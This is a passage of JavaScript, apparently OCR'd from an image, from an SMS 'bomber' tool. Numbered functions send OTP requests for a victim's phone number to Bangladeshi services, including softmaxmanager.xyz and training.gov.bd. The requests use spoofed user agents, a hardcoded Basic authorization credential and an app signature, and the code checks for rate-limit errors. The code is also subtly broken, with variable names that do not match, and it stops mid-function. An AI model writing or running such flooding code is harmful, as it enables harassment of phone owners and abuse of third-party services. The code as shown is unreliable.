         const result = await response.json();

        
        if (result.status === 'Failed' || result.error || result.message.includes('limit exceeded')) {
            throw new Error(`API 16 Failure: ${result.message || 'Unknown error'}`);
        }

        return result;
    } catch (error) {
        console.error('API 16 Error:', error);
        throw error;
    }
}

async function api_17(phone) {
    const url = "https://softmaxmanager.xyz/api/v1/user/request/otp/";
    

    try {
        const response = await fetch(url, {
            method: 'POST',
            headers: {
            'user-agent': 'Dart/3.4 (dart:io)',
            'content-type': 'application/x-www-form-urlencoded; charset=utf-8',
            'accept-encoding': 'gzip',
            'authorization': 'Basic c29zOjI3TTMjYTRz',
            'host': 'softmaxmanager.xyz'
            },
            body: new URLSearchParams({
            'phone_number': '+88' + phone_number,
            'app_signature': 'Fu89B%2BdY9dz'
            })
        });

        const result = await response.json();

        
        if (result.status === 'Failed' || result.error || result.message.includes('limit exceeded')) {
            throw new Error(`API 17 Failure: ${result.message || 'Unknown error'}`);
        }

        return result;
    } catch (error) {
        console.error('API 17 Error:', error);
        throw error;
    }
}

async function api_18(phone) {
    const url = "https://training.gov.bd/backoffice/api/user/sendOtp";
    

    try {
        const response = await fetch(url, {
            method: 'POST',
           headers: {
           'Host': 'training.gov.bd',
           'Connection': 'keep-alive',
           'Content-Type': 'application/json',
           'User-Agent': 'Mozilla/5.0 (iPhone; CPU iPhone OS 13_2_3 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/13.0.3 Mobile/15E148 Safari/604.1',
           'Origin': 'https://training.gov.bd',
           'Referer': 'https://training.gov.bd/signup',
           'Accept-Encoding': 'gzip, deflate, br',
           'Accept-Language': 'en-US,en;q=0.9,bn-BD;q=0.8,bn;q=0.7'
           },
           body: JSON.stringify({
           mobile: mobile
           })